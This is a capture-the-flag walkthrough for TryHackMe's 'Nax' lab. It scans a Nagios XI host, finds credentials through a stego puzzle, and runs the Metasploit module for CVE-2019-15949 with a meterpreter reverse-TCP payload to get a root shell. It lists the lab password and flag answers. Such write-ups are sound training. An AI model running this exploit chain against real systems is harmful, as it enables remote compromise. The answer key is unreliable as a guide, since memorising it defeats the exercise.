

# Nax

Identify the critical security flaw in the most powerful and trusted network monitoring software on the market, that allows an user authenticated execute remote code execution.

[Nax](https://tryhackme.com/room/nax)

## Topic's

- Network Enumeration
- Steganography
- CVE-2019-15949 - Nagios XI
- Metasploit (nagios_xi_authenticated_rce)

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Task 1 Flag

Are you able to complete the challenge?
The machine may take up to 5 minutes to boot and configure

```
kali@kali:~/CTFs/tryhackme/Nax$ sudo nmap -A -sS -sC -sV -O 10.10.135.242
[sudo] password for kali:
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 09:16 CEST
Nmap scan report for 10.10.135.242
Host is up (0.087s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 62:1d:d9:88:01:77:0a:52:bb:59:f9:da:c1:a6:e3:cd (RSA)
|   256 af:67:7d:24:e5:95:f4:44:72:d1:0c:39:8d:cc:21:15 (ECDSA)
|_  256 20:28:15:ef:13:c8:9f:b8:a7:0f:50:e6:2f:3b:1e:57 (ED25519)
25/tcp  open  smtp     Postfix smtpd
|_smtp-commands: ubuntu.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN,
| ssl-cert: Subject: commonName=ubuntu
| Not valid before: 2020-03-23T23:42:04
|_Not valid after:  2030-03-21T23:42:04
|_ssl-date: TLS randomness does not represent time
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=192.168.85.153/organizationName=Nagios Enterprises/stateOrProvinceName=Minnesota/countryName=US
| Not valid before: 2020-03-24T00:14:58
|_Not valid after:  2030-03-22T00:14:58
|_ssl-date: TLS randomness does not represent time
| tls-alpn:
|_  http/1.1
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/11%OT=22%CT=1%CU=31987%PV=Y%DS=2%DC=T%G=Y%TM=5F82B1
OS:98%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: Host:  ubuntu.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   33.79 ms  10.8.0.1
2   102.53 ms 10.10.135.242

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.34 seconds
```

[http://10.10.135.242/](http://10.10.135.242/)

`Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr`

[https://en.wikipedia.org/wiki/Periodic_table](https://en.wikipedia.org/wiki/Periodic_table)

```
kali@kali:~/CTFs/tryhackme/Nax$ python3 -c "print(''.join([chr(i) for i in [47, 80, 73, 51, 84, 46, 80, 78, 103]]))"
/PI3T.PNg
```

```
kali@kali:~/CTFs/tryhackme/Nax$ wget 10.10.135.242/PI3T.PNg
--2020-10-11 09:21:19--  http://10.10.135.242/PI3T.PNg
Connecting to 10.10.135.242:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 982359 (959K) [image/png]
Saving to: ‘PI3T.PNg’

PI3T.PNg                                          100%[=============================================================================================================>] 959.33K  1.43MB/s    in 0.7s

2020-10-11 09:21:20 (1.43 MB/s) - ‘PI3T.PNg’ saved [982359/982359]

kali@kali:~/CTFs/tryhackme/Nax$ exiftool PI3T.PNg
ExifTool Version Number         : 12.06
File Name                       : PI3T.PNg
Directory                       : .
File Size                       : 959 kB
File Modification Date/Time     : 2020:03:25 05:00:15+01:00
File Access Date/Time           : 2020:10:11 09:21:20+02:00
File Inode Change Date/Time     : 2020:10:11 09:21:20+02:00
File Permissions                : rw-r--r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 990
Image Height                    : 990
Bit Depth                       : 8
Color Type                      : Palette
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Palette                         : (Binary data 768 bytes, use -b option to extract)
Transparency                    : (Binary data 256 bytes, use -b option to extract)
Artist                          : Piet Mondrian
Copyright                       : Piet Mondrian, tryhackme 2020
Image Size                      : 990x990
Megapixels                      : 0.980
```

[http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1](http://10.10.135.242/nagiosxi/login.php?redirect=/nagiosxi/index.php%3f&noauth=1)

`nagiosadmin%n3p3UQ&9BjLp4$7uhWdY`



[Nagios XI - Authenticated Remote Command Execution (Metasploit)](https://www.exploit-db.com/exploits/48191)

```
msf5 > search CVE-2019-15949

Matching Modules
================

   #  Name                                            Disclosure Date  Rank       Check  Description
   -  ----                                            ---------------  ----       -----  -----------
   0  exploit/linux/http/nagios_xi_authenticated_rce  2019-07-29       excellent  Yes    Nagios XI Authenticated Remote Command Execution
```

```
msf5 > use 0
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_authenticated_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path to NagiosXI
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   nagiosadmin      yes       Username to authenticate with
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (x64)


msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set password n3p3UQ&9BjLp4$7uhWdY
password => n3p3UQ&9BjLp4$7uhWdY
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set RHOSTS 10.10.135.242
RHOSTS => 10.10.135.242
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(linux/http/nagios_xi_authenticated_rce) > run
```

```
meterpreter > shell
Process 13658 created.
Channel 1 created.
ls
CHANGES.txt
getprofile.sh
profile.inc.php
profile.php
whoami
root
cd /home
ls
galand
cd galand
ls
nagiosxi
user.txt
cat user.txt
THM{84b17add1d72a9f2e99c33bc568ae0f1}
cd /root
ls
root.txt
scripts
cat root.txt
THM{c89b2e39c83067503a6508b21ed6e962}
```

1. What hidden file did you find?

`/PI3T.PNg`

3. Who is the creator of the file?

`Piet Mondrian`

5. If you get an error running the tool for on your downloaded image about an unknown ppm format -- just open it with gimp or another paint program and export to ppm format and try again!

`No answer needed`

7. What is the username you found?

`nagiosadmin`

8. What is the password you found?

`n3p3UQ&9BjLp4$7uhWdY`

9.  What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

`CVE-2019-15949`

10. Now that we've found our vulnerability, let's find our exploit. For this section of the room, we'll use the Metasploit module associated with this exploit. Let's go ahead and start Metasploit using the command `msfconsole`.

`No answer needed`

11. After Metasploit has started, let's search for our target exploit using the command 'search applicationame'. What is the full path (starting with exploit) for the exploitation module?

`exploit/linux/http/nagios_xi_authenticated_rce`

13. Compromise the machine and locate user.txt

`THM{84b17add1d72a9f2e99c33bc568ae0f1}`

14. Locate root.txt

`THM{c89b2e39c83067503a6508b21ed6e962}`
